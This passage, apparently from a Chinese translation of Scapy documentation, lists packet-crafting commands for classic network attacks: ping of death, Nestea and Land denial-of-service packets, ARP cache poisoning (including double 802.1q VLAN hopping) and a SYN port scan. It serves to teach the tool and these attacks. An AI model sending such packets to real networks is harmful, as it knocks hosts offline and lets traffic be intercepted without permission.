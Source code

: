     >>> ans,unans=sr( IP(dst="192.168.*.1-10")/UDP(dport=0) )

同样的，使用以下命令收集结果：

    >>> ans.summary( lambda(s,r) : r.sprintf("%IP.src% is alive") )

## Classical attacks

Malformed packets:

    >>> send(IP(dst="10.1.1.5", ihl=2, version=3)/ICMP())

Ping of death (Muuahahah):

    >>> send( fragment(IP(dst="10.0.0.5")/ICMP()/("X"*60000)) )

Nestea attack:

    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*10))
    >>> send(IP(dst=target, id=42, frag=48)/("X"*116))
    >>> send(IP(dst=target, id=42, flags="MF")/UDP()/("X"*224))

Land attack (designed for Microsoft Windows):

    >>> send(IP(src=target,dst=target)/TCP(sport=135,dport=135))

##　ARP cache poisoning

这种攻击可以通过VLAN跳跃攻击投毒ARP缓存，使得其他客户端无法加入真正的网关地址。

经典的ARP缓存投毒：　　　　

```
>>> send( Ether(dst=clientMAC)/ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

使用double 802.1q封装进行ARP缓存投毒：

```
>>> send( Ether(dst=clientMAC)/Dot1Q(vlan=1)/Dot1Q(vlan=2)
      /ARP(op="who-has", psrc=gateway, pdst=client),
      inter=RandNum(10,40), loop=1 )
```

## TCP Port Scanning

发送一个TCP SYN到每一个端口上。等待一个SYN-ACK或者是RST或者是一个ICMP错误：

```
>>> res,unans = sr( IP(dst="target")
                /TCP(flags="S", dport=(1,1024)) )
```

将开放的端口结果可视化：

    >>> res.nsummary( lfilter=lambda (s,r): (r.haslayer(TCP) and (r.getlayer(TCP).flags & 2)) )

## IKE Scanning
